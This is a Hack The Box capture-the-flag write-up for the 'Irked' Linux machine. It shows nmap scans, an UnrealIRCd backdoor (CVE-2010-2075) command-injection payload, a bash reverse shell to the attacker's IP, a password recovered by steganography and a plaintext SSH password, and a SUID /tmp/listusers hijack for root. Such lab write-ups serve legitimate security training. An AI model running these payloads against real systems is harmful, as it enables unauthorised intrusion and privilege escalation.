

# Irked

| | |
|---|---|
| **OS** | Linux |
| **Difficulty** | Easy |
| **Topics** | UnrealIRCd (CVE-2010-2075), Binary Exploitation, ltrace |

---

## 📁 Folder Structure

- [`content/`](content/) — screenshots and inline references used in the write-up
- [`nmap/`](nmap/) — raw nmap output files
- [`exploit/`](exploit/) — exploit scripts, binaries, payloads, and other tools used

---

# Enumeration

## Nmap

SYN Stealth Scan

```bash
sudo nmap -p- --open -sS --min-rate 5000 -Pn -n -v 10.10.10.117 -oN AllPorts
```

Result:

```markdown
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8067/tcp  open  infi-async
47702/tcp open  unknown
65534/tcp open  unknown

```

TCP Full Scan: 

```bash
nmap -p22,80,111,6697,8067,47702,65534 -sCV -Pn -n -v 10.10.10.117 -oN FullScan

```

Result: 

```markdown
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          47702/tcp   status
|   100024  1          49385/udp6  status
|   100024  1          53642/tcp6  status
|_  100024  1          60649/udp   status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
47702/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd

```

HTTP Enumeration: Found a simple image in the HTTP service



### Ports 6697,8067,65534:

From the output we can see some interesting ports associated with the service UnrealIRCd

Checking on Nmap scrips we can see one associated with a possible backdoor: 


Nmap Scan ports 6697,8067,65534


From the additional scan we can see that port `8067` is running a trojaned version of unrealircd.

# Initial Access

After discovering the port 8067 to be vulnerable to this [CVE](https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2010-2075)  we can see that service can be exploited by sending a simple network connection with the prefix AB. 

Using Netcat we can test this vulnerability by sending us a ping: 

```bash
echo 'AB ; ping -c1 10.10.14.2' | nc -nv 10.10.10.117 8067
```

Execution: 


Ping Received: 


Sucess! We have RCE 

Using the following payload we can get a reverse shell: 

```bash
echo 'AB ; bash -c "bash -i >& /dev/tcp/10.10.14.2/4444 0>&1"' | nc -nv 10.10.10.117 8067
```

Listener: 


Got access as `ircd` user. 

### Lateral Movement:

Doing further enumeration on the `/home` directory, we can see the home folder for the user `djmardov`

Enumerating the folders we will find an interesting file on `Documents` folder, the file is hidden but readable for any user. 


This seems to be a passphrase for another file that contains some type of stego challenge. 

From the initial enumeration, we saw an image being hosted on the website (http://10.10.10.117)


Let’s download the image and use the tool `steghide` to discover the content. 

Command: 

```bash
 steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss 
```

Looks like it worked with the password provided: 


Checking the content of `pass.txt`:


This seems to be another password, probably for the SSH access for the user `djmardov`

Let’s try to access via SSH: 

```bash
ssh djmardov@10.10.10.117 ##Pass: Kab6h+m+bbp2J:HG
```

Success, we got access as user `djmardov`: 


# Privilege Escalation

Enumerating the binaries with SUID bit: 

```bash
find / -type f -perm -4000 2>/dev/null 
```


We can see the binary `/usr/bin/viewuser` which is an uncommon binary on this type of enumeration. 

Checking the file type we can see that is a 32bit binary


Then, by executing the binary, we see some errors out at the end as /tmp/listusers isn’t found.


This is a clue on what the binary does, probably it tries to read that file from `/tmp`

We can execute a ltrace on the binary to verify it’s actions, to do this, we need to first transfer the binary to our machine:

Command to perform the transfer (execute it from the attacker machine)

```bash
scp -P 22 djmardov@10.10.10.117:/usr/bin/viewuser /home/kali/HTB/Irked/exploit/viewuser
```

*On execution, provide the SSH password. 

Ltrace analysis: 

```bash
└─$ ltrace ./viewuser
__libc_start_main(["./viewuser"] <unfinished ...>
puts("This application is being devleo"...This application is being devleoped to set and test user permissions
)                                                     = 69
puts("It is still being actively devel"...It is still being actively developed
)                                                     = 37
system("who"kali     tty7         2025-04-10 13:02 (:0)
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                          = 0
setuid(0)                                                                                       = -1
system("/tmp/listusers"sh: 1: /tmp/listusers: not found
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                          = 32512
+++ exited (status 0) +++

```

On executing `ltrace` on the binary it’s seen that it first calls setuid() to the uid to 0 and then calls
system to execute /tmp/listusers.

Based on this information, this can be exploited by creating a file `/tmp/listusers` with a malicious code which will get executed by root when it is called by the viewuser binary.

Let’s just inject a bash spawn command into the file, that will be enough for us to get a shell: 

```bash
echo '/bin/sh' > /tmp/listusers 
##also give execution permissions to the file: 
chmod +x /tmp/listusers
```

Finally, execute the binary `viewuser`:


Success! We got a shell as `root`

[Owned Irked from Hack The Box!](https://www.hackthebox.com/achievement/machine/906667/163)